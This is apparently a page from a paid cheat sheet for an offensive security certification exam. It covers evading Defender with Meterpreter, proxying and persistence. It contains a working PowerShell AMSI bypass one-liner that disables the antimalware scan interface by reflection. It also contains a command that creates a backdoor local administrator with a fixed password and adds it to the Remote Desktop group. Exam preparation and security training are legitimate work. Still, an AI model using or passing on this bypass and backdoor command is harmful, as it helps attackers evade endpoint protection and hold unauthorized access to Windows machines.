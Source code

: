 # Meterpreter
A regular Meterpreter EXE payload will be detected by Defender. However, you can use my complete guide [[LINK ONLY AVAILABLE IN PAID GUIDE, BECAUSE SHARED WITH OTHER EXAM SETS]] to compile a Meterpreter that will be undetected.

# AMSI bypass
The string given in the PDF works
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

# Proxy
You can use fllow my dedicated guide [[LINK ONLY AVAILABLE IN PAID GUIDE, BECAUSE SHARED WITH OTHER EXAM SETS]].

# Persistance
Two useful techniques for persistance (after admin access)
Add a backdoor user and RDP access:
net user osepuser 9.Abcdefghi /add; net localgroup "Administrators" /add osepuser ; net localgroup "Remote Desktop Users" /add osepuser
